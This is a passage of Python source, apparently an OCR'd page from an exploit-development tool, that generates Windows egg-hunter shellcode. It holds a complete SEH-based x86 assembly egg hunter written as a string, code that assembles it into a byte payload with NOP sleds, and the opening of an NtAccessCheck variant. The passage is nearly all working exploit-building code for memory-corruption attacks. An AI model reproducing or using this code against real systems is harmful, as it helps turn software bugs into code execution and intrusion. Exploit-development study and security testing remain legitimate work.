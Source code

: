 ```
        return

    hex_word = string_to_hex(egg)
    little_endian = to_little_endian(hex_word)

    CODE = (
        "	start: 									 "
        "		jmp get_seh_address 				;"
        "	build_exception_record: 				 "
        "		pop ecx 							;"
        f"		mov eax, 0x{little_endian}			;"
        "		push ecx 							;"
        "		push 0xffffffff 					;"
        "		xor ebx, ebx 						;"
        "		mov dword ptr fs:[ebx], esp 		;"
        "	is_egg: 								 "
        "		push 0x02 							;"
        "		pop ecx 							;"
        "		mov edi, ebx 						;"
        "		repe scasd 							;"
        "		jnz loop_inc_one 					;"
        "		jmp edi 							;"
        "	loop_inc_page: 							 "
        "		or bx, 0xfff 						;"
        "	loop_inc_one: 							 "
        "		inc ebx 							;"
        "		jmp is_egg 							;"
        "	get_seh_address: 						 "
        "		call build_exception_record 		;"
        "		push 0x0c 							;"
        "		pop ecx 							;"
        "		mov eax, [esp+ecx] 					;"
        "		mov cl, 0xb8						;"
        "		add dword ptr ds:[eax+ecx], 0x06	;"
        "		pop eax 							;"
        "		add esp, 0x10 						;"
        "		push eax 							;"
        "		xor eax, eax 						;"
        "		ret 								;"
    )

    encoding, instructions = generate_egghunter(CODE)

    if nop_count_before > 0:
        instructions = "\\x90" * nop_count_before + instructions
    if nop_count_after > 0:
        instructions += "\\x90" * nop_count_after

    out = "[+] Egg Hunter generated successfully\n"
    out += f"Egg Hunter size: {len(encoding)}\n"
    out += f"Egg Hunter size with NOPs: {len(encoding) + nop_count_before + nop_count_after}\n"
    out += f"Egg Hunter: egghunter = b\"{instructions}\""
    return out

def egghunter_nt(egg, ntaccess):
    nop_count_before = ARGS.nopbefore
    nop_count_after = ARGS.nopafter

    if not egg or len(egg) != 4:
        print("[!] The EGG must be provided and be exactly 4 characters long.")
        return

    hex_word = string_to_hex(egg)
```